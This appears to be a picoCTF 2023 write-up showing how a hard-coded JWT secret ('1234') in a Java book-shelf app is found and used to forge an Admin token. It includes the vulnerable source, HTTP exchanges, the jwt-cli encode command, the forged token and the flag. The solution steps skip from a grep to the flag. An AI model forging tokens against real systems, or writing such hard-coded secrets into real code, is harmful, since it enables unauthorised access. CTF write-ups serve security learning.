 # picoCTF2023 Java Code Analysis!?! Write Up

## Description

> BookShelf Pico, my premium online book-reading service. I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book! Here are the credentials to get you started:
> -  Username: "user"
> - Password: "user"
> Source code can be downloaded [here](https://artifacts.picoctf.net/c/481/bookshelf-pico.zip). Website can be accessed [here!](http://saturn.picoctf.net:52964/).

## Solution

The website initially provides a login interface. Using the default credentials provided in the challenge instance takes us to a search page containing three books:
- The first book requires free privileges
- The second book requires premium privileges
- The third (the flag book, which we are supposed to open) requires admin privileges

The default credentials only give free privileges - the goal of the challenge seems to be getting admin privileges.

The challenge instance also provides access to the source code. After downloading the source code and unzipping it with the command `tar -xvf bookshelf-pico.zip` I began to inspect the source code files. First, I checked the `README.md` file - this contains some basic information about how the website works. Of note is the information about the `security` directory, which contains the core security logic of the program. 

This directory can be found at `src/main/java/io/github/nandandesai/pico/security`. Within this directory is the following files:

```
BookPdfAccessCheck.java
JwtService.java	
ReauthenticationFilter.java
SecretGenerator.java	
SecurityConfig.java	
TokenException.java
UserSecurityDetailsService.java
models
```

Of particular interest is the `JwtService.java` file - this indicates that JWT's are being used for authorisation. This can be verified by analysing the contents of the login request and response:

```http
POST /base/login HTTP/1.1
Host: saturn.picoctf.net:51399
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 34
Origin: http://saturn.picoctf.net:51399
Connection: close
Referer: http://saturn.picoctf.net:51399/
Priority: u=0

{"email":"user","password":"user"}
```

```http
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: application/json
Date: Thu, 15 Aug 2024 08:32:28 GMT
Connection: close
Content-Length: 236

{"type":"SUCCESS","payload":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTcyNDMxNTU0OCwiaWF0IjoxNzIzNzEwNzQ4LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.fVWqwUVAsk9xVmWJo2qA4ECuRpwuBJdL8OIMIXCVzvM"}
```

The payload in the response is a JWT. Decoding the JWT using https://jwt.io/ shows the tokens payload structure:

```
{
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1724315548,
  "iat": 1723710748,
  "userId": 1,
  "email": "user"
}
```

Ideally I would modify the `"role"` field to something other than `"Free"` to give me a token with administrator privileges, which I could then use to access the flag book. The two main problems preventing me from doing so at this stage are:
- I don't know what the the `"role"` field needs to contain
- I don't know what the secret key used to encrypt the JWT is

The first point is easily addressed - accessing the `src/main/resources` directory, there is a file called `data.sql` which has the following contents:

```sql
INSERT INTO roles VALUES ('Free', 1);
INSERT INTO roles VALUES ('Basic', 2);
INSERT INTO roles VALUES ('Premium', 3);
INSERT INTO roles VALUES ('Admin', 4);
```

Thus we want to set the `"role"` field to `"Admin"`.

The second point is more difficult, and as the title suggests requires inspecting the Java source code. Naturally, the Java files in the security directory are a good starting point.

The `JwtService.java` file contains a `SECRET_KEY` attribute which is used as the secret key when generating and decoding JWTs. It is set according to `secretGenerator.getServerSecret()`, the functionality of which is defined in `SecretGenerator.java`:

```java
@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```

 We can see that the secret key is read from the file `server_secret.txt` if the file exists, otherwise the file is created and populated with the contents of `generateRandomString()`. Interestingly, the string returned from this function is not random at all - it is set to `"1234"`. Operating on the assumption that no `server_secret.txt` file exists upon launching the challenge instance, this means the JWT secret key is `"1234"`.

With these pieces of information, I can create my own JWT. I used the [JWT cli tool](https://github.com/mike-engel/jwt-cli) from Mike Engel for this purpose. I ran the following command:

```
jwt encode --secret "1234" '{"role":"Admin","iss":"bookshelf","exp":1724315548,"iat":1723710748,"userId":1,"email":"user"}'
```

Which produced the following JWT:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJlbWFpbCI6InVzZXIiLCJleHAiOjE3MjQzMTU1NDgsImlhdCI6MTcyMzcxMDc0OCwiaXNzIjoiYm9va3NoZWxmIiwicm9sZSI6IkFkbWluIiwidXNlcklkIjoxfQ.gWkil-rszTDV6KD4JB9tY01hzRGhiQ48hjs8WYfKEOk
```

Opening the developer console and looking at the storage section, I observed that the JWT is being stored in the local storage section:

![[Screenshot 2024-08-15 at 8.50.06 pm.png]]

I set the `auth-token` field to the JWT above and the `token-payload` field to the value:

```
{"role":"Admin","iss":"bookshelf","exp":1724315548,"iat":1723710748,"userId":1,"email":"user"}
```

After refreshing the page, the icon at the top right of the screen indicates that I have admin privileges! However attempting to access the flag book is unsuccessful. Looking at the HTTP response from attempting to access the book shows an error:

```http
HTTP/1.1 403 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Type: application/json
Date: Thu, 15 Aug 2024 10:47:32 GMT
Connection: close
Content-Length: 149

{"type":"UNAUTHORIZED","payload":{"message":"You are trying to access a resource but you don't have the permission.","details":["Access is denied"]}}
```

At this stage I turned back to the source code to find any other information to indicate why my JWT may not be working. To this end, I recursively searched the `pico` directory for the contents of `"message"` described above with the command:

```
grep -r "You are trying to access"
```

Which produces a match on the `exceptions/CommonExceptionHandler.java` file. This error message comes from an exception handler called `accessDeniedExceptions()` containing an exception of type `AccessDeniedException`. Again I recursively searched for the `AccessDeniedException`


Flag:
picoCTF{w34k_jwt_n0t_g00d_ca4d9701}